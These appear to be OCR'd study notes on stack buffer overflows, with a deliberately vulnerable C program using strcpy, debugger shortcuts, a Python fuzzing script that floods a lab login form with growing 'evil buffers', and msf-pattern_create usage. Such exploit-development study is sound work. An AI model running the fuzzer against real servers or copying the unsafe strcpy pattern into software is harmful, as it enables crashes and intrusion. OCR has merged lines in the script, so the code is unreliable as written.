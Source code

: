 
# Buffer Overflow

Thread Stack Frame Example

Function A Return Address

Function A parameter 1 

Function A parameter 2 

Function A parameter 3 

## Sample Vulnerable Code
```
#include <stdio.h> 
#include <string.h>

int main(int argc, char *argv[])
{	
    char buffer[64];
    if (argc < 2)
    {
        printf("Error - You must supply at least one argument\n");
        return 1; 
    }
    strcpy(buffer, argv[1]);
    return 0; 
}
```
We right click inside the disassembly window and select Search for > All referenced text
strings:

set break point - f2

Run - f9

Step Into - f7

Continue Till Return - Ctrl+f9

## Fuzzing Script:

```
#!/usr/bin/python 
import socket 
import time 
import sys

size = 100

while(size < 2000):
    try:
        print "\nSending evil buffer with %s bytes" % size inputBuffer = "A" * size
        content = "username=" + inputBuffer + "&password=A"
        buffer = "POST /login HTTP/1.1\r\n"
        buffer += "Host: 10.11.0.22\r\n"
        buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101
        Firefox/52.0\r\n" buffer += "Accept:
        text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n" buffer += "Accept-Language: en-US,en;q=0.5\r\n"
        buffer += "Referer: http://10.11.0.22/login\r\n"
        buffer += "Connection: close\r\n"
        buffer += "Content-Type: application/x-www-form-urlencoded\r\n" buffer += "Content-Length: "+str(len(content))+"\r\n"
        buffer += "\r\n"
        buffer += content
        s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("10.11.0.22", 80)) s.send(buffer)
        s.close()
        size += 100 time.sleep(10)
    except:
        print "\nCould not connect!" sys.exit()
```


```
kali@kali:~$ locate pattern_create
/usr/bin/msf-pattern_create /usr/share/metasploit-framework/tools/exploit/pattern_create.rb

kali@kali:~$ msf-pattern_create -h
Usage: msf-pattern_create [options]
Example: msf-pattern_create -l 50 -s ABC,def,123 Ad1Ad2Ad3Ae1Ae2Ae3Af1Af2Af3Bd1Bd2Bd3Be1Be2Be3Bf1Bf

Options:
-l, --length <length> The length of the pattern
-s, --sets <ABC,def,123> Custom Pattern Sets
-h, --help Show this message
```

